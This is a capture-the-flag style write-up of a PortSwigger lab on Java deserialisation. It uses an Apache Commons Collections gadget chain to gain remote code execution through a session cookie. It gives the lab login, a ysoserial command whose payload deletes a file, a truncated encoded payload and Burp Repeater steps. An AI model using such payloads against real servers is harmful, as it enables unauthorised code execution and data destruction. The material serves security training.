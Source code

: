 # Exploiting Java deserialisation with Apache Commons

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons) uses a serialisation-based session mechanism and loads the Apache Commons Collections library. 

## Reproduction

1. Log in with `wiener:peter`. The session cookie is URL and base64 encoded and contains a serialised Java object (the first two bytes are `aced`). Send a request containing the session cookie to Burp Repeater.
2. Download the [Ysoserial](https://github.com/frohoff/ysoserial) tool, [if need be, make the on kali necessary changes to run it](../techniques/id.md).
3. Execute the command to generate a Base64-encoded serialised object containing an RCE payload. The application uses Apache Commons Collections library, so use a `CommonsCollections` payload:

```text          
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
...
```

4. In Burp Repeater, replace the session cookie with the malicious one just created. Select the entire cookie and then URL-encode it.
5. Send the request to solve the lab.

## PoC

<iframe title="Exploiting Java deserialisation with Apache Commons" src="https://tube.spdns.org/videos/embed/34965ce1-bcea-4cba-8f97-d90b314d17f6" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

Although attackers do not have source code access, they can still exploit this lab using pre-built gadget chains. An attacker will need to log in; use a third-party tool to generate a malicious serialised object containing a remote code execution payload; and pass this object into the website to delete the `morale.txt` file from Carlos's home directory. 
